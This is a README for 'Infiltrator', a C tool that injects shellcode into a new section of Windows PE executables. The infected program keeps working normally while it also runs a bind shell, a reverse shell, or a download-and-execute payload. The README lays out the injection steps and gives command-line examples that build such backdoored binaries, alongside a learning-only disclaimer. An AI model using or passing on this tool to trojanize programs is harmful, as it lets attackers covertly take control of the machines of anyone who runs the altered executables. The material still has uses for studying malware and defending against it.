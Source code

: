 Infiltrator
===========

Infiltrator 0.1

License:

  Infiltrator by Saif El-Sherei is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

Refrences:
https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

Credits:
		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"

Author:
		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
Features:
		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
Todo:
		[*] Payload encoding.
Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i     INPUT file.exe (PE)
 -o  OUPUT file.exe (PE)
 -s     Normal Shellcode followed by one of the payload
        types
 -k     Threaded Shellcode followed by one of the payload
        types

[*] Payload Types:

 "bind"                           Bind payload Followed by payload options
 "reverse"                        Connect Back Payload Followed by payload options

 "download & execute"     Download & exec Payload Followed by payload options

[*] Payload Options:

 -p [port]                      port to use (Bind or Reverse Payload)
 -h [host]                      Host to connect to (Reverse Payload)
 -u [url]                       URL to connect to (Download & Exec Payload)
 -f [path]                      path to file to fetch (Download & Exec Payload)
 -of[output file]       output file to Execute from  Download & Exec Payload
